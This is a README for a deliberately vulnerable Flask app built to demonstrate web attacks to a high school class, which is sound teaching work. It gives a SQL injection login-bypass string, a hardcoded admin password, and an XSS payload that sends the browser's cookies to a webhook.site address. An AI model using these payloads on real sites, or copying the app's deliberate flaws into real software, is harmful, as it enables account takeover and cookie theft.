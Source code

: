 # Flask SQL Injection Demo
This is a small demonstration of how a SQL injection might look like, written for a presentation in front of a highschool class.

The server hosts an index page with a login to demonstrate a SQL injection, e.g. "admin'; --" (without the exclamation marks) in the user input, to successfully log in with any password. The correct password for the admin account is admin123.

After sucessfully logging in, there is a button that redirects to the posts page, which can also be reached by link. 

However, only after a successful login, will the browser set a username and password cookie from the database, which can then be used for demonstratin the XSS attack.

On the posts page, the user can create new posts, including such posts that use HTML elements. This can be used for a XSS attack, e.g.:
```html
<img src="x" onerror="fetch('https://webhook.site/mywebhook?cookies='+document.cookie);">

```
Which will send the browser cookies to your webhook website, demonstrating the dangers of XSS attacks.

If you want to show arbitrary code execution you can generate HTML-Elements with arbitrary code execution, e.g.: with alerts. If you find them annoying, you can remove them by clicking on the red cross (from wikipedia, background removed).

You can reach the server via localhost:5000
## Pictures in static
- red cross
    - By Yerson_O, CC BY-SA 3.0, https://commons.wikimedia.org/w/index.php?curid=2588992, white background removed